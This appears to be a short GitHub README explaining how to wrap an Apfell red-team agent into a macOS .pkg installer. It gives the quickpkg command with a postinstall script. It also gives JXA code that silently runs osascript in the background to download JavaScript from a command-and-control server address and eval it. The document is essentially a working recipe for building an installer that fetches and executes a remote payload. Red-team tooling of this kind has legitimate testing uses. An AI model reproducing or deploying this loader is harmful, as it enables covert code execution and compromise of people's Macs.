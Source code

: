 # Apfell Payload
Making pkg payload from macOS JXA app

**Testing Environment:**  
Ubuntu 18.04.1\
[Apfell v1.4](https://github.com/its-a-feature/Apfell)\
MacOS 10.15.3


## Making the pkg payload
Using this [script](https://github.com/scriptingosx/quickpkg) to make pkg because pkgbuild is fickle.  
Run to build pkg: 
`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


## Creating apfelljxa.app with Script Editor
Create apfelljxa.app with the following Javascript:  
`var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`


Note: Exclude Example folder when building the .pkg
